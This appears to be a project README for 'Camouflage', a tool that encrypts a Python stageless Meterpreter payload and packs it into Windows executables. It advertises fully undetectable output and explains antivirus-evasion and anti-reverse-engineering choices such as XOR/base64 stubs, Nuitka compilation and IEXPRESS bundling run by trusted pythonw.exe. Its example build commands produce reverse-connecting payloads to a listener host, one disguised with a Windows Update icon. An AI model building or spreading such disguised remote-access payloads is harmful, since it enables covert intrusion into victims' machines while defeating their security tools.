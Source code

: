 # 𝕮𝖆𝖒𝖔𝖚𝖋𝖑𝖆𝖌𝖊
### ρутнση stagless мєтєяρяєтєя ¢яуρтєя


## Features
- Supports TCP/HTTP/HTTPS python stageless meterpreter.
- Wraps the python meterpreter with an encryption stub.
- Converting the final stub to C code then compiling it to a native executable, or bundling it with an embedded python version in one executable. 
- Produces FUD executables.


## Requirements
- Python3.x
- Windows OS
- MSVC Toolchain (optional)


## Installation

#### This version works on python3 and only supports Windows OS for now.
`python -m pip install -r requirements.txt`

## Examples

#### `python .\camouflage.py -p tcp -H 192.168.140.102:8080 --packer compile -o Final --icon C:\Windows\System32\WindowsUpdateImportant.ico`
#### `python .\camouflage.py -p https -H 192.168.140.102:443 --srw 3 --ua "Meterpreter Test"`


## How it works
    The script begins by patching "meterpreter.py" with the provided parameters by the user, encrypting the script starts with base64 encoding (first cycle) then xor encrypting with an 8-Byte key then base64 encoding again (second cycle), the result is saved to a stub, the stub then does the opposite to execute the original code, there are two options to pack the script, either by converting it to C and compiling it to a native binary via Nuitka (harder to Reverse Engineer) or bundling the script with an embedable python version using a Windows legacy program called IEXPRESS (more OPSEC) because the scripts gets executed by "pythonw.exe" which is a trusted program by Windows, rather than using flagged methods of bundling (pyinstaller, py2exe, ..etc).
    At the moment the program only works on Windows because the way it is compiled and bundled, in future releases cross compiling can be added to include Linux support.   



## Demo
#### Windows 11 x64
![Demo](resources/demo.gif)